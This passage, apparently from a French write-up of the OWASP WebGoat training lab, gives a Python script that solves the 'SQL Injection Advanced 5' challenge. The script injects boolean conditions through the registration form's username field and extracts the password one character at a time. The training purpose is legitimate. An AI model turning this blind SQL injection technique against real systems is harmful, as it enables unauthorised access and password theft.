 Ce challenge peut être un bon exercice pour s'entraîner au scripting. Ci-dessous, un petit exemple de code Python permettant de retrouver la réponse:

```python
import json  
import requests  
  
def sql_injection_advance_5():  
     alphabet_index = 0  
     alphabet = 'abcdefghijklmnopqrstuvwxyz'  
     password_index = 0  
     password = ''  
  
     headers = {  
        'Cookie': COOKIE,  
     }  
  
     while True:  
         payload = 'tom\' AND substring(password,{},1)=\'{}'.format(password_index + 1, alphabet[alphabet_index])  
  
         data = {  
             'username_reg': payload,  
             'email_reg': 'a@a',  
             'password_reg': 'a',  
             'confirm_password_reg': 'a'  
         }  
  
         r = requests.put('http://HOST:PORT/WebGoat/SqlInjectionAdvanced/challenge', headers=headers, data=data)  
  
         try:  
             response = json.loads(r.text)  
         except:  
             print("Wrong JSESSIONID, find it by looking at your requests once logged in.")  
             return  
  
         if "already exists please try to register with a different username" not in response['feedback']:  
             alphabet_index += 1  
             if alphabet_index > len(alphabet) - 1:  
                 return  
         else:  
             password += alphabet[alphabet_index]  
             print(password)  
             alphabet_index = 0  
             password_index += 1  
  
sql_injection_advance_5()
```  

![SQLi Advanced 5](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/sqli-advanced-5.png)
